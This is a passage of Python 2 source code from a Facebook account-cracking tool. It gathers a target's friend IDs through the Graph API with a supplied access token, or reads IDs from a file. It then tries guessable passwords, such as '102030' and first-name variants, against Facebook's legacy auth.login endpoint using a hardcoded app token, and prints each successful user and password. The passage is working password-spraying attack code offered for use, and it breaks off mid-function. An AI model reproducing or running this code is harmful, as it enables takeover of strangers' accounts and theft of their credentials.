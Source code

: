 		os.system("clear")
		print (logo)
		print (40*"-")
		try:
			jok = session.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			psb("[✓] Account  Name: "+op["name"])
			time.sleep(0.5)
		except KeyError:
			print("[!] ID Not Found!")
			raw_input("\n[Back]")
			crack_menu()
		r = session.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z["data"]:
			id.append(i["id"])
	elif bch =="3":
		os.system("clear")
		print (logo)
		print (40*"-")
		try:
			idlist = raw_input("[✓] Enter File Path  : ")
			for line in open(idlist,"r").readlines():
				id.append(line.strip())
		except IOError:
			print ("[!] File Not Found")
			raw_input("\n[ Back ]")
			crack_menu()
	elif bch =="0":
		menu()
	else:
		print ("[!] Fill in correctly")
		crack_action()
	xxx = str(len(id))
	psb ("[✓] Total Friends: "+xxx)
	time.sleep(0.5)
	psb ("[✓] Please wait, process is running ...")
	time.sleep(0.5)
	psb ("[!] To Stop Process Press CTRL Then Press z")
	time.sleep(0.5)
	print (50*"-")
	print
	
			
	def main(arg):
		global cpb,oks
		user = arg
		try:
			a = session.get("https://graph.facebook.com/"+user+"/?access_token="+toket)
			b = json.loads(a.text)
			d=b["first_name"]
			e=d.replace(" ", "")
			f=e.lower()
			g=pf(f, 1)
			h=g.upper()
			i=rf(f, 1)
			c=h+i
			pass1="102030"
			data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if "access_token" in q:
				print "\x1b[1;92m[OK]\x1b[0m " + user + " | " + pass1